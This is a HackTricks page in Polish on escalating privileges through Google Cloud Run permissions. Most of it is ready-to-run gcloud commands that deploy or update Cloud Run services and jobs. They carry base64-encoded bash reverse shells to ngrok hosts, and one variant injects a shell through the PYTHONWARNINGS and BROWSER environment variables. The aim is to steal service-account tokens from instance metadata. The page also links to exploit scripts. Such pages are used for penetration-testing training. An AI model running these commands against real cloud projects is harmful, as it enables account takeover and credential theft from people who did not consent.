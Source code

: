 # GCP - Run Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Run

Aby uzyskać więcej informacji na temat Cloud Run, sprawdź:

{% content-ref url="../gcp-services/gcp-cloud-run-enum.md" %}
[gcp-cloud-run-enum.md](../gcp-services/gcp-cloud-run-enum.md)
{% endcontent-ref %}

### `run.services.create` , `iam.serviceAccounts.actAs`, **`run.routes.invoke`**

Atakujący z tymi uprawnieniami może **utworzyć usługę uruchamiającą dowolny kod** (dowolny kontener Docker), dołączyć do niej konto usługi i sprawić, aby kod **wyekstrahował token konta usługi z metadanych**.

Skrypt exploitujący tę metodę można znaleźć [tutaj](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/run.services.create.py), a obraz Dockera można znaleźć [tutaj](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudRunDockerImage).

Zauważ, że używając `gcloud run deploy` zamiast po prostu tworzenia usługi **potrzebne są uprawnienia `update`**. Sprawdź [**przykład tutaj**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/o-run.services.create.sh).

### `run.services.update` , `iam.serviceAccounts.actAs`

Jak w poprzednim przypadku, ale aktualizując usługę:
```bash
# Launch some web server to listen in port 80 so the service works
echo "python3 -m http.server 80;sh -i >& /dev/tcp/0.tcp.eu.ngrok.io/14348 0>&1" | base64
# cHl0aG9uMyAtbSBodHRwLnNlcnZlciA4MDtzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5ldS5uZ3Jvay5pby8xNDM0OCAwPiYxCg==

gcloud run deploy hacked \
--image=ubuntu:22.04 \  # Make sure to use an ubuntu version that includes python3
--command=bash \
--args="-c,echo cHl0aG9uMyAtbSBodHRwLnNlcnZlciA4MDtzaCAtaSA+JiAvZGV2L3RjcC8wLnRjcC5ldS5uZ3Jvay5pby8xNDM0OCAwPiYxCg== | base64 -d | bash" \
--service-account="<proj-num>-compute@developer.gserviceaccount.com" \
--region=us-central1 \
--allow-unauthenticated

# If you don't have permissions to use "--allow-unauthenticated", dont use it
```
### `run.services.setIamPolicy`

Przyznaj sobie wcześniejsze uprawnienia w chmurze Run.

### `run.jobs.create`, `run.jobs.run`, `iam.serviceaccounts.actAs`,(`run.jobs.get`)

Uruchom zadanie z odwróconym powłoką, aby ukraść konto usługi wskazane w poleceniu. Możesz znaleźć [**eksploit tutaj**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/m-run.jobs.create.sh).
```bash
gcloud beta run jobs create jab-cloudrun-3326 \
--image=ubuntu:latest \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNC50Y3AuZXUubmdyb2suaW8vMTIxMzIgMD4mMQ== | base64 -d | bash" \
--service-account="<sa>@$PROJECT_ID.iam.gserviceaccount.com" \
--region=us-central1

```
### `run.jobs.update`,`run.jobs.run`,`iam.serviceaccounts.actAs`,(`run.jobs.get`)

Podobnie jak w poprzednim przypadku, możliwe jest **aktualizowanie zadania i aktualizowanie SA**, **wykonanie polecenia** i **uruchomienie go**:
```bash
gcloud beta run jobs update hacked \
--image=mubuntu:latest \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account=<proj-num>-compute@developer.gserviceaccount.com \
--region=us-central1 \
--execute-now
```
### `run.jobs.setIamPolicy`

Przyznaj sobie wcześniejsze uprawnienia do Cloud Jobs.

### `run.jobs.run`, `run.jobs.runWithOverrides`, (`run.jobs.get`)

Wykorzystaj zmienne środowiskowe wykonania zadania, aby wykonać dowolny kod i uzyskać odwróconą powłokę do zrzucenia zawartości kontenera (kod źródłowy) oraz uzyskać dostęp do SA w metadanych:

{% code overflow="wrap" %}
```bash
gcloud beta run jobs execute job-name --region <region> --update-env-vars="PYTHONWARNINGS=all:0:antigravity.x:0:0,BROWSER=/bin/bash -c 'bash -i >& /dev/tcp/6.tcp.eu.ngrok.io/14195 0>&1' #%s"
```
{% endcode %}

## Odniesienia

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
